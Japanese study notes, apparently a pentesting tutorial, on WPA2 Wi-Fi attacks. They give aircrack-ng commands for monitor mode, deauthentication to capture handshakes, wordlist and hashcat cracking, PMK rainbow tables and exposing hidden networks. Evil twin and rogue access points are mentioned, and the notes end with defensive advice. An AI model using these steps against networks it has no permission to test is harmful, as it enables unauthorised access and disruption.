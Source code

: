 # ワイヤレス侵入

WPA2 の想定

## 用語

- SSID: 接続しようとしたときに表示されるネットワークの「名前」
- ESSID: 複数のアクセスポイント（例えば、会社のオフィスなど）に適用される可能性のあるSSID。通常は大規模なネットワークを形成する。Aircrackでは、通常、攻撃対象のネットワークを指す。
- BSSID: アクセスポイントのMAC（ハードウェア）アドレス
- WPA2-PSK: 誰でも同じ事前共有パスワードを入力して接続するWi-Fiネットワーク
- WPA2-EAP: ユーザー名とパスワードを入力して認証し、RADIUS サーバーに送信される Wi-Fi ネットワーク。
- RADIUS: Wi-Fi だけでなく、クライアントを認証するためのサーバー。

## Aircrack-ng

https://www.aircrack-ng.org/doku.php

## モード変更

WiFi アダプタには manage, monitor の 2 種類のモードがある。  
攻撃に使われるのは monitor モード。

```shell
# ネットワークインターフェース確認
ifconfig

# モードを確認（※デフォルトは managed）
iwconfig

# インターフェースをダウン
sudo ifconfig <interface name> down

# モニターモードに変更
sudo iwconfig <interface name> mode monitor
or
sudo airmon-ng start <interface name>

# インターフェースをアップ
sudo ifconfig <interface name> up

# モードを確認（※monitor に変わっていたら成功）
iwconfig

# モニターモードにするために邪魔になるプロセスを表示またはKill
airmon-ng <check|check kill>
```

## WiFi アダプタが動作していないときに実行するスクリプト

```shell
sudo airmon-ng check kill
sudo ifconfig <interface name> down
sudo iwconfig <interface name> mode monitor
sudo ifconfig <interface name> up
sudo systemctl restart networking
sudo nmcli networking on
```

## 4way ハンドシェイクのキャプチャ取得

### パケットをダンプ（チャンネルとアクセスポイントの BSSID を確認）

```shell
sudo airodump-ng <interface name>
```

### パケットをダンプしてファイル出力

```shell
sudo airodump-ng -c <channel> --bbsid <BSSID> -w <filename> <interface name>
```

### 非認証攻撃でクライアントに再接続させる（再接続時の 4way ハンドシェイクをキャプチャする目的）

```shell
sudo aireplay-ng -0 0 -a <MAC> <interface name>
```

#### cap ファイルは WireShark で開ける

```shell
wireshark <filename>-01.cap
```

## aircrack-ng

### ワードリストを使ってパスワードをクラック

```shell
aircrack-ng -w /usr/share/wordlists/rockyou.txt <filename>-01.cap
```

### パイプで渡すこともできるが、マッチしても処理が止まらないため使えないと思う

```shell
crunch 12 12 -t abcdef@@@%%% | aircrack-ng -w - SCAN-01.cap
```

## hashcat

GPU を使うため、aircrack-ng より速い

### hcxtools をインストール

```shell
sudo apt install hcxtools
```

### cap を hashcat で扱える形式に変換

```shell
hcxpcapngtool -o output.22000 input.cap
```

### ワードリストを使ってパスワードをクラック

```shell
hashcat -m 22000 output.22000 wordlist.txt
```

## レインボーテーブル

計算負荷の高い PMK を事前に計算しておく手口

### レインボーテーブル作成（ESSID とパスワードの組から PMK が生成される）

PMK = PBKDF2(HMAC-SHA1, パスワード, ESSID, 4096, 256-bit)

```shell
airolib-ng <レインボーテーブル名> --import essid essid.txt
airolib-ng <レインボーテーブル名> --import passwd password.txt
airolib-ng <レインボーテーブル名> --batch
airolib-ng <レインボーテーブル名> --stats
```

### テーブル内容確認

```shell
airolib-ng <レインボーテーブル名> --sql 'select * from essid'
airolib-ng <レインボーテーブル名> --sql 'select * from passwd'
airolib-ng <レインボーテーブル名> --sql 'select * from pmk'
```

### テーブルクリア

```shell
airolib-ng <レインボーテーブル名> --clean all
```

### レインボーテーブルを使ってクラックする

PMK とナンス、MAC を使って PTK が生成される  
PTK = PRF-512(PMK + ANonce + SNonce + MAC アドレス情報)

```shell
aircrack-ng -r <レインボーテーブル名> SCAN-01.cap
```

## fluxion

インタラクティブなツール。フィッシングでユーザーにパスワードを入力させるような機能もある。

https://github.com/FluxionNetwork/fluxion

## Hidden ネットワーク

### ①HiddenNetwork は、ESSID が空欄で表示されるが、BSSID は表示される

```shell
airodump-ng <interface name>
```

### ② BSSID に接続しているクライアントを見つける

```shell
airodump-ng --bssid <BSSID> -c <channel> <interface name>
```

### ③ 特定のクライアントにだけ認証解除パケットを送る（※② は起動したまま）

```shell
aireplay-ng --deauth 5 -a <BSSID> -c <client MAC> <interface name>
```

再接続が行われると、② の表示に ESSID が表示される。あとは通常の場合と同じ。

## その他の攻撃手法

| 名称               | 説明                                                                                                                                           |
| ------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------- |
| Evil twin attack   | 正規の SSID によく似せたアクセスポイントを設置し、認証解除攻撃を繰り返すなどして、不正なアクセスポイントへの接続を促す。                       |
| Rogue access point | 組織の近くにオープンアクセスポイントを設置する。デバイスがオープン WiFi に自動的に接続する設定になっている場合、知らずに接続する可能性がある。 |

## セキュリティ視点

- WPA2 でリスト生成困難な程度に強力なパスワードを設定していれば、機械的にはクラックできない
- fluxion 等を使ったフィッシングには注意が必要（偽装ホストに誘導してパスワードを入力させる手口）
- レインボーテーブルは ESSID に対して作られるため、定期的にネットワーク名を変更するのは有効
- 逆に、パスワード変更はレインボーテーブルに対しては効果が無い可能性がある
- 隠しネットワークは、セキュリティ的な観点ではまったく無意味
